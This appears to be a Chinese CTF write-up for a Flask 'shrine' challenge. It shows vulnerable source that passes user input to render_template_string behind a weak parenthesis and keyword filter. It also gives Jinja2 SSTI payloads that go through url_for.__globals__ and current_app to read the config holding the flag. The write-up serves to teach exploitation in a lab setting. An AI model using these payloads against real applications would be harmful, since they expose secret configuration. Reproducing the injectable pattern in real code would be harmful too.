

源码

```python
import flask
import os

app = flask.Flask(__name__)

app.config['FLAG'] = os.environ.pop('FLAG')


@app.route('/')
def index():
    return open(__file__).read()


@app.route('/shrine/<path:shrine>')
def shrine(shrine):

    def safe_jinja(s):
        s = s.replace('(', '').replace(')', '')
        blacklist = ['config', 'self']
        return ''.join(['{}'.format(c) for c in blacklist]) + s

    return flask.render_template_string(safe_jinja(shrine))


if __name__ == '__main__':
    app.run(debug=True)
```

一眼 SSTI，但是把括号 ban 了，找了一圈没发现有合适的 payload。

但是这里来看 flag 的位置，实际上是能够得到一些启发的，当`config`,`self`,`()`都被过滤的时候，为了获取讯息，我们需要读取一些例如`current_app`这样的全局变量。

先读取全局变量

```payload
/shrine/{{url_for.__globals__}}
```


其中

```python
 'current_app': <Flask 'app'>, 'PY2': True, 'send_from_directory':
```

`current_app`是当前使用的`app`，继续获取其中的 config

```payload
{{url_for.__globals__['current_app'].config}}
```




